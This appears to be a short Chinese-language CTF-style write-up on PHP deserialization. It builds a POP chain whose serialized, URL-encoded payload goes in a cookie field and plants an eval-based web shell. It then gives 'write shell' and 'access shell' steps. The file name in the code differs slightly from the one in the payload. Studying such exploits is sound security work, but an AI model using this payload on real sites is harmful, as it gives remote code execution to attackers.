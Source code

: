 构造 POP 链

```php
<?php
class dbLog{
    
	public $content = '<?php eval($_POST[x]);?>';
	public $log = 'webshell.php';
}
echo urlencode(serialize(new dbLog()));
```

得到 poc ，写入 Cookie 的 user 字段

```
O%3A5%3A%22dbLog%22%3A2%3A%7Bs%3A7%3A%22content%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5Bx%5D%29%3B%3F%3E%22%3Bs%3A3%3A%22log%22%3Bs%3A13%3A%22webshell1.php%22%3B%7D
```

写 shell

<img src=".\图片\Snipaste_2023-08-13_10-41-16.png" alt="Snipaste_2023-08-13_10-41-16" style="zoom:67%;" />

访问 shell

